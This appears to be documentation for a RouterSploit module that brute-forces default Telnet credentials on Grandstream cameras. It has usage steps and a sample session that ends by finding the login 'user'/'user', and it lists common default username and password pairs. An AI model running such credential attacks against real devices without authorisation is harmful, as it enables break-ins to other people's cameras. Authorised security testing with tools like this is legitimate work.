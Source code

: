 ## Description

Module performs dictionary attack with default credentials against Grandstream Camera Telnet service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/grandstream/telnet_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/grandstream/telnet_default_creds
rsf (Grandstream Camera Default Telnet Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Grandstream Camera Default Telnet Creds) > run
[*] Running module...
[*] Target exposes Telnet service
[*] Starting default credentials attack against Telnet service
[*] thread-0 thread is starting...
[-] Telnet Authentication Failed - Username: 'admin' Password: 'admin'
[-] Telnet Authentication Failed - Username: '1234' Password: '1234'
[-] Telnet Authentication Failed - Username: 'root' Password: '12345'
[-] Telnet Authentication Failed - Username: 'root' Password: 'root'
[+] Telnet Authentication Successful - Username: 'user' Password: 'user'
[*] thread-0 thread is terminated.
[*] Elapsed time: 5.389287948608398 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     23       telnet      user         user

```
